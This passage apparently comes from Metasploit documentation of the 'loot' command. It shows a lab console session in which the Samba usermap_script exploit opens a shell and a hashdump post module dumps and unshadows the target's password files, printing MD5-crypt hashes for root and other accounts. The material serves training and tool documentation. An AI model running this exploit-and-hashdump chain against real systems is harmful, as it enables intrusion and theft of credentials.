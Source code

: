 I have compromised the target via the Samba service and now I will loot some hashes from it:

``` plain
msf exploit(usermap_script) > run -j
[*] Exploit running as background job.

[*] Started bind handler
msf exploit(usermap_script) > [*] Command shell session 2 opened (192.168.80.155:49009 -> 192.168.80.156:4444) at 2016-06-03 13:19:48 -0400

msf exploit(usermap_script) > use post/linux/gather/hashdump
msf post(hashdump) > options

Module options (post/linux/gather/hashdump):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf post(hashdump) > sessions

Active sessions
===============

  Id  Type        Information  Connection
  --  ----        -----------  ----------
  2   shell unix               192.168.80.155:49009 -> 192.168.80.156:4444 (192.168.80.156)

msf post(hashdump) > set SESSION 2
SESSION => 2
msf post(hashdump) > run

[+] root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:0:0:root:/root:/bin/bash
[+] sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:3:3:sys:/dev:/bin/sh
[+] klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:103:104::/home/klog:/bin/false
[+] msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
[+] postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
[+] user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:1001:1001:just a user,111,,:/home/user:/bin/bash
[+] service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:1002:1002:,,,:/home/service:/bin/bash
[+] Unshadowed Password File: /root/.msf5/loot/20160603132136_lab_192.168.80.156_linux.hashes_520578.txt
[*] Post module execution completed
```

Now I can see the loot in the database:

``` plain
msf post(hashdump) > loot

Loot
====

host            service  type          name                   content     info                            path
----            -------  ----          ----                   -------     ----                            ----
192.168.80.156           linux.hashes  unshadowed_passwd.pwd  text/plain  Linux Unshadowed Password File  /root/.msf5/loot/20160603132136_lab_192.168.80.156_linux.hashes_520578.txt
192.168.80.156           linux.passwd  passwd.tx              text/plain  Linux Passwd File               /root/.msf5/loot/20160603132135_lab_192.168.80.156_linux.passwd_153460.txt
192.168.80.156           linux.shadow  shadow.tx              text/plain  Linux Password Shadow File      /root/.msf5/loot/20160603132135_lab_192.168.80.156_linux.shadow_842643.txt
```
